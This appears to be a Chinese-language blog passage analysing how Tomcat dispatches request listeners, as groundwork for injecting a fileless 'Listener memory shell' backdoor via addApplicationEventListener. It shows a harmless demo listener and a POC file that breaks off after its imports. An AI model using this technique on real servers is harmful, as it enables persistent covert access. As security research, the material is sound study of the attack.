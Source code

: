 ```java
@WebListener
public class MyContextListener implements ServletContextListener { ... }
```

写个demo继承 ServletRequestListener接口，用注解装配。然后在requestInitialized打上断点

```java
@WebListener("/hello-listener")
public class HelloListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("Listener 被调用");
    }

}
```

跟进到StandardHostValve.invoke，在context.bind装配完context后，调用了firstRequestInitEvent

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308141351954.png)

后面就有`context.getPipeline().getFirst().invoke(request, response)`，指向StandardWrapperValve.invoke，很显然这个invoke就会执行Filter->Servlet。所以这几个组件的执行顺序是Listener -> Filter -> Servlet

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308152936115.png)

fireRequestInitEvent中，先是调用getApplicationEventListeners获取Listener，然后强转为ServletRequestListener，然后调用其requestInitialized方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308153636748.png)

跟进到getApplicationEventListeners看看从哪获取的Listener

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308153831502.png)



有getter就有setter，直接调用addApplicationEventListener或者setter（直接修改Listeners组，容易打崩正常业务），就能完成Listener内存马的注入

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308155801951.png)

POC：

```java
package org.example.tomcatmemshell.Listener;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.WebResourceRoot;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationContextFacade;
import org.apache.catalina.core.ApplicationFilterChain;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import org.example.tomcatmemshell.Filter.FilterMemShell;
```